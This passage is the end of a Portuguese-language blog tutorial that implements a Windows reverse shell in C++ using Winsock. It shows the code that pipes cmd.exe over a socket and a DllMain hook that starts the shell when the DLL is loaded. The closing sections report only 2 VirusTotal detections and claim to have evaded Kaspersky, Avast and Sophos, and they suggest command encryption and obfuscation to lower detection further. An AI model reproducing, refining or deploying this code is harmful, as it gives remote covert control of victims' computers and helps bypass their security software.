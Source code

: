 ```cpp
    ThreadParams readParams = { hStdoutRead, sock };
    ThreadParams writeParams = { hStdinWrite, sock };

    _beginthreadex(NULL, 0, &ReadFromCmd, &readParams, 0, NULL);
    _beginthreadex(NULL, 0, &WriteToCmd, &writeParams, 0, NULL);

    WaitForSingleObject(pi.hProcess, INFINITE);

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    CloseHandle(hStdoutRead);
    CloseHandle(hStdinWrite);
    closesocket(sock);
    WSACleanup();

    return 0;
}

#ifdef _WINDLL
__declspec(dllexport) BOOL WINAPI DllMain(HINSTANCE hInstance, DWORD fdwReason, LPVOID lpReserved) {
    if (fdwReason == DLL_PROCESS_ATTACH) {
        CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)main, NULL, 0, NULL);
    }
    return TRUE;
}
#endif
```

---
# Conclusão

Concluímos a implementação de um **Reverse Shell** funcional utilizando **C++** e a API **Winsock**. Este código, apesar de simples, demonstra os conceitos fundamentais de redirecionamento de processos, manipulação de **sockets** e comunicação remota.

Ao longo deste post, exploramos como redirecionar a entrada e saída de um processo do **cmd.exe**, além de como implementar a comunicação bidirecional entre o cliente e o servidor por meio de **sockets**. Este é um exemplo claro de como os sistemas operacionais e redes podem ser manipulados para criar soluções poderosas de controle remoto.
## Contra VirusTotal

Bom, contra o **VirusTotal** obtivemos um total de apenas **2** detecções, o que é consideravelmente pouco, se quisermos, um resultado melhor, podemos combinar **criptografia** de comando com chave aleatória e funções de **ofuscação** por exemplo no `CreateProcess`.

![VirusTotal](https://i.imgur.com/owwftR6.png)

## Contra AV/EDR
Bom os **antivírus** que utilizei de teste foram ( [kaspersky](https://www.kaspersky.com.br/), [avast](https://www.avast.com/), [sophos](https://www.sophos.com/pt-br/products/endpoint-antivirus/edr) ), conseguimos contornar os três sem nenhum aviso.
